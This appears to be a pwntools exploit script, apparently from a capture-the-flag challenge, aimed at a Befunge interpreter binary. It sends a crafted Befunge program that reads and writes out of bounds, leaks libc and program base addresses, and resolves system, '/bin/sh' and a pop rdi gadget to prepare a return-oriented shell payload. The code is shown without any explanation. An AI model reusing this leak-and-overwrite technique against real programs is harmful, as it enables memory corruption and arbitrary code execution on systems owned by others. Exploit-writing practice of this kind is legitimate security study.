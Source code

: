 ```python

def cal_offset(addr, text_base):
    start_from = text_base + 0x202040
    offset = addr - start_from
    off_80 = offset/80
    off_1 = offset%80

    return off_1, off_80

def write(addr, text_base, value):
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in range(off_1, off_1+6):
        v = (value>>(8*cnt)) & 0xff
        sh.sendline(str(v))
        sh.sendline(str(i))
        sh.sendline(str(temp))
        sh.sendline(str(temp))
        cnt += 1

base = 0x202040
program = '>'.ljust(79,' ')+'v'+'\n'
program+= 'v,g&&,g&&,g&&,g&&,g&&,g&&,g&&,g&&,g&&,g&&,g&&,g&&'.ljust(79,' ')+'<'+'\n' #leak libc 6bytes (1st: -2, 2nd: -48 ~ -43) #leak text 6bytes-56, -9
program+= '>&&&*g,&&&*g,&&&*g,&&&*g,&&&*g,&&&*g,'.ljust(79,' ')+'v'+'\n' #leak text 6bytes-56, -9
program+= 'vp*&&&&p*&&&&p*&&&&p*&&&&p*&&&&p*&&&&'.ljust(79,' ')+'<'+'\n'
program+= '>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p'.ljust(79,' ')+'v'+'\n'
program+= 'vp*&&&&p*&&&&p*&&&&p*&&&&p*&&&&p*&&&&'.ljust(79,' ')+'<'+'\n'
program+= ('v'.ljust(79,' ')+'<'+'\n')*17
program+= '>'.ljust(79,'>')+'v'+'\n'
program+= '^'.ljust(79,'<')+'<'+'\n'
sh.sendlineafter('>',program)
sh.recvuntil("> > > > > > > > > > > > > > > > > > > > > > > > ")

libc_leak = ''
for i in range(6):
    sh.sendline(str((-48)+i))
    sh.sendline(str(-2))
    rev = u8(sh.recv(1))
    libc_leak = libc_leak+p8(rev)
    leak(str(i),rev)
libc_leak = u64(libc_leak.ljust(8,'\x00'))
libcbase = libc_leak-libc.sym['__libc_start_main']
system = libcbase + libc.sym["system"]
env = libcbase + libc.sym['environ']
binsh = libcbase+ libc.search('/bin/sh').next()
leak('libc base',libcbase)
leak('binsh',binsh)

text_leak = ''
for i in range(6):
    sh.sendline(str((-56)+i))
    sh.sendline(str(-9))
    rev = u8(sh.recv(1))
    text_leak = text_leak+p8(rev)
    leak(str(i),rev)
textbase = u64(text_leak.ljust(8,'\x00'))-0xb00 
pop_rdi = textbase + 0x120c
start = base+textbase
leak('text base',textbase)
```